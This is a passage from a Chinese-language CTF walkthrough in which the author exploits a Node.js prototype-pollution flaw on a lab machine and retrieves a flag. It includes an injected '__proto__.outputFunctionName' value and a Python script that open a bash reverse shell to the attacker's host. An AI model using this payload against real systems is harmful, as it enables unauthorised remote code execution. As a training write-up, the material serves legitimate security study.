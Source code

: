         本菜鸡没看懂，要学习`Node.js`污染原型链，本菜鸡没学过，大概知道要怎么利用
        
        大概就是将数据包里的的`name`改为
        
        ```
        __proto__.outputFunctionName
        ```
        
        然后将值改为：
        
        ```
        x;process.mainModule.require('child_process').exec('bash -c "bash -i &> /dev/tcp/ip/prot 0>&1"');x
        ```
        
        当我们再次发起请求时，便会在指定的主机反弹回来一个`shell`，从而达到RCE的目的
        
        其实在上面的链接也给出了利用脚本
        
        ```python
        import requests
        
        cmd = 'bash -c "bash -i &> /dev/tcp/192.168.56.10/8888 0>&1"'
        
        # pollute
        requests.post('http://127.0.0.1:8080', files = {'__proto__.outputFunctionName': (
            None, f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x")})
        
        # execute command
        requests.get('http://127.0.0.1:8080')
        ```
        
        我们将脚本改名为`shell.py`然后上传到靶机进行利用
        
    - 存放在靶机的`/tmp`目录里，同时`kali`监听`8888`端口，执行脚本（使用`python3`执行）
        
        可以看到已经反弹到`8888`端口了
        
        ![image.png](image%20102.png)
        
        用户是`imera`
        
4. 在该用户家目录下存在`flag`文件
    